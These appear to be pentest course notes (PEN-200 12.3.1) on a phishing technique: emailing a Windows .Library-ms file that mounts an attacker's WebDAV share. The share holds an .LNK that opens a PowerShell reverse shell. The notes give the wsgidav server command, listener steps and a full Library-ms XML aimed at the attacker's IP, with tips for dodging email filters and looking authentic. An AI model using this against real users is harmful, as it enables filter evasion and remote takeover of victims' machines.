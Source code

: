 # Windows Library Files Code Execution
- 12.3.1 in Pen-200
- .Library-ms extension
- General idea is sending our Target/Victim a Windows Library File.
- Victim receives a .Library-ms file, perhaps via email.
- Once the Library file is opened by the target, it will connect them to a  a WebDav share that we control.
- Becuase it is a library, it appears as a regular directory in Windows Explorer. 
- We'll populate the WebDAV directory/share with a .LNK file or other malicious file, that executes a PowerShell RevShell. User must click the .LNK payload to execute.
NOTE: The reason we don't just send the link, is to bypass email filter, spam filter, as a lot of the security technologies will ALLOW the .Library-ms file, but not the .LNK.

## Recieving Connection
1. Launch Library listener, WebDAV
```bash
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/hacking/tools/webdav/
# test at 127.0.0.1 in browser
```
2. ncat listener on whatever port is specified in the LNK file
3. python http server to host powercat, (IF LNK specifies powercat usage). 
4. Place evil LNK or malicous file in directory referenced in step 1 **/webdav/**

## Create Library-ms file
Open VSC/notepad
save empty file named config.Library-ms on the users desktop
Library files have 3 major parts
written in XML to specify parameters for accessing remote locations
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.158</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>


<!--
<name>@windows.storage.dll,-34582</name>
This specifies the name of the library, not arbitrary

<version>6</version>
this can be whatever we want

<isLibraryPinned>true</isLibraryPinned>
Pin to navigation in explorer, makes it feel authentic

<iconReference>imageres.dll,-1003</iconReference>
What ICON is displayed to user, use imagesres.dll to choose between windows icons
-1002 = Documents folder icon,  -1003 = Pictures folder icon

<templateInfo> <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType> </templateInfo>
GUID is valid Documents guid.. 

<url>http:/192.168.45.158</url>  - KALI IP
-->
```
Now when we launch that, we should see our test.txt file, being served by our WebDAV share on KALI
After connecting, you'll notice Windows modified some parts of the file, which may/will break it if you try to move it to an other machine
